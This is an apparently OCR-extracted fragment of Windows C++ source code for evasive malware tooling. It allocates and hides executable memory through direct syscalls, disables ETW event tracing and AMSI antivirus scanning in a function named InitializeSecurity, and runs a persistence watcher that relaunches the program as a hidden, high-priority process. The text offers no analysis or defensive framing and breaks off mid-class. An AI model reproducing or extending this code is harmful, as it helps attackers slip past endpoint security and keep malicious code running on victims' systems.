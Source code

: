 public:
    static LPVOID AllocateHiddenMemory(SIZE_T size) {
        LPVOID address = NULL;
        DirectSyscall::SyscallAllocateMemory(
            GetCurrentProcess(),
            &address,
            size,
            PAGE_EXECUTE_READWRITE);
            
        if (address) {
            HideMemoryRegion(address, size);
        }
        return address;
    }
    
    static void WriteHiddenMemory(LPVOID address, const void* buffer, SIZE_T size) {
        UnhideMemoryRegion(address, size, PAGE_EXECUTE_READWRITE);
        memcpy(address, buffer, size);
        HideMemoryRegion(address, size);
    }
};

void InitializeSecurity() {
    ETWBypass::DisableETW();
    AMSIBypass::DisableAMSI();
}

class AutoRestart {
private:
    static std::atomic<bool> isWatcherRunning;
    static HANDLE hMutex;
    static const wchar_t* MUTEX_NAME;
    static const wchar_t* RESTART_EVENT_NAME;
    
    static void CreateWatcherProcess() {
        wchar_t exePath[MAX_PATH];
        GetModuleFileNameW(NULL, exePath, MAX_PATH);
        
        STARTUPINFOW si = { sizeof(STARTUPINFOW) };
        PROCESS_INFORMATION pi;
        
        std::wstring cmdLine = std::wstring(exePath) + L" --watcher";
        
        CreateProcessW(NULL, (LPWSTR)cmdLine.c_str(),
            NULL, NULL, FALSE,
            CREATE_NO_WINDOW | CREATE_SUSPENDED,
            NULL, NULL, &si, &pi);
            
        if (pi.hProcess) {
            SetPriorityClass(pi.hProcess, HIGH_PRIORITY_CLASS);
            ResumeThread(pi.hThread);
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
        }
    }
    